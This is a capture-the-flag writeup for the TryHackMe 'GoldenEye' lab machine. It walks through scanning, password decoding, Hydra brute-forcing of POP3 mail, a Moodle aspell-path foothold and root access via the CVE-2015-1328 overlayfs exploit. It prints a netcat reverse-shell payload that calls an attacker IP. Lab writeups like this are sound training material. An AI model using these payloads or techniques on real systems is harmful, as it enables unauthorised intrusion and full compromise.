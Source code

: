 # GoldenEye TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](2-2.png)

## Enumeration

We access the website, find a message with the mission and it tells us to enter the *"/sev-home/"* directory to log in with *"UNKNOWN"* user.

![](3.png)

We see that it asks for credentials, so we may need to brute force it.

![](4.png)

We review the source code, access the *"terminal.js"* file and identify an encoded password.

![](5.png)

#### Password Decode

![](6.png)

We enter the credentials obtained (using the user *"boris"*) and we are invited to send an email to a GoldenEye supervisor.

![](7.png)

We revisit the source code and list two supervisors.

![](8.png)

We launch **Hydra** with a list of the two supervisors and a quick dictionary with most used passwords, we will get the new password of the user *"boris"*.

![](10.png)

We connect by **Telnet** with the obtained credentials, we see that we have *3 mails* in the tray.

![](11.png)

We read the *3rd email*, it seems that *Boris* saved the codes in the root of the root folder

![](12.png)

The next thing I tried was to catch all the users obtained from the emails and in the enumeration phase, I re-launched the same dictionary and the login credentials of the user *"Natalya"* appeared.

![](13.png)

We use the new credentials, read the emails where we will get some credentials and a web address that we will have to add to our *"/etc/hosts"* file.

![](14.png)

We log in, check **Moodle** and find a message from a *"Dr. Doak"*.

![](15.png)

We try again to brute force the POP3 service with the user *"doak"* and we get the credentials of this user. Yes, that's right! We reconnect via **Telnet** and see your emails ;)

![](16.png)

#### Credentials obtained from Doak mailings.

![](17.png)

We connect to **Moodle** with the credentials obtained, look in its files and find one called *"s3cret.txt"*.

![](18.png)

#### Contents of file "s3cret.txt":

![](19.png)

We access the path of the link and download the image to our kali.

![](20.png)

We analyze with the tool "Exiftool" and we see that it contains a password encoded in base64.

![](21.png)

## Exploitation

Log in with the administrator credentials, reviewing all the options we find the *"Path to aspell"* (we were previously given a hint of aspell).

![](22.png)

#### Payload

```bash
sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f'
```

Create a new entry and click on the button.

![](23.png)

#### Reverse shell

![](24.png)

## Privilege Escalation

We do a reconnaissance phase, but we do not find anything useful. We launch the **Linux exploit suggester** script, it lists several scripts that we can use. In my case, I used the *"CVE-2015-1328 - OVERLAYFS"*.

![](25.png)

We host the file to compile it on the victim machine, but the **"gcc"** binary is not installed, but in the recognition phase we detect a binary called **"cc"**, if we use **"file"** on it we see several symbolic links until we find **"clang"**.

![](26.png)

We modify the exploit by changing the **"gcc"** binary to **"cc"**, compile and run the exploit becoming root.

![](27.png)

We read the root flag and it gives us the path with the deactivation codes.

![](28.png)

MISSION COMPLETED!!

![](29.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
